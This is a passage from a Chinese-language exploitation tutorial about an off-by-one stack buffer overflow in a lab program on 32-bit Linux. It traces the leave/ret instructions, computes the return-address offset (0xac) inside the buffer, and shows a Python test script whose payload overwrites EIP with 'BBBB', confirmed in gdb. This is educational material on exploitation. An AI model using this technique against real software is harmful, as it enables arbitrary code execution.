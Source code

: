 测试第二步：来自目标缓冲区的偏移量是什么？  

现在我们需要在目标缓冲区‘buf’的起始端中找到偏移量。我们还需设置好返回地址。切记，在off-by-one漏洞中，我们并不是要覆盖栈中的实际返回地址（在栈缓冲区溢出漏洞利用代码中我们才覆盖实际返回地址），而是把攻击者控制的目标缓冲区‘buf’内的一个4字节内存区域视作返回地址位置，对这块区域进行覆盖（在off-by-one溢出之后）。因此，我们需要(从‘buf’中)找到这个返回地址位置的偏移量——而这个偏移量也是目标缓冲区‘buf’本身的一部分。  
这段话有点绕，没关系，继续往下读就好。  
我们先试着从 text 段地址0x0804840开始尝试理解CPU的执行：  

0x08048490 - call strcpy – 执行这个指令会导致off-by-one溢出，因此（储存在栈地址0xbffff2cc中的）foo的EBP值将会由0xbffff2d8变为0xbffff200。  
0x08048495 - leave - leave指令释放了这个函数的栈空间并且恢复了EBP。    
```
leave: mov ebp, esp;        //unwind stack space by setting esp to ebp. 
       pop ebp;             //restore ebp
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff2cc
       pop ebp;             //ebp = 0xbffff200 (Overwritten EBP value is now stored in ebp register); esp = 0xbffff2d0
```

0x08048496 - ret - 返回到foo的指令0x08048475。  
0x08048475 - leave - leave指令释放了这个函数的栈空间并且恢复了EBP。  
```
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff200 (As part of unwinding esp is shifted down instead of up!!)
       pop ebp;             //ebp = 0x41414141; esp = 0xbffff204
```

0x08048476 - ret - 返回到储存在ESP (0xbffff204)中的指令中。此时ESP指向被攻击者控制的缓冲区，因此攻击者可以回到任何他想要实现任意代码执行的地方。  

现在我们回到“在目标缓冲区‘buf’中寻找返回地址的偏移量”的最初测试上。如堆栈布局图所示，‘buf’位于0xbffff158，并且由紧随其后的CPU执行中可知，目标缓冲区‘buf’内的返回地址位置是0xbffff204。因此目标缓冲区‘buf’中返回地址的偏移量是0xbffff204 – 0xbffff158 = 0xac，因此用户输入“A”172 + “B”4 + “A”*80，用“BBBB”覆盖了EIP。  

``` python
$ cat exp_tst.py 
#exp_tst.py
#!/usr/bin/env python
import struct
from subprocess import call
buf = "A" * 172
buf += "B" * 4
buf += "A" * 80
print "Calling vulnerable program"
call(["./vuln", buf])
```

``` bash
$ python exp_tst.py 
Calling vulnerable program
$ sudo gdb -q vuln 
Reading symbols from /home/sploitfun/lsploits/new/obo/stack/vuln...(no debugging symbols found)...done.
(gdb) core-file core
[New LWP 4055]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
上述输出结果显示，攻击者控制了返回地址。此时返回地址位于buf的偏移(0xac)处。有了上面这些信息，我们就可以写出能实现任意代码执行的漏洞利用程序了。  
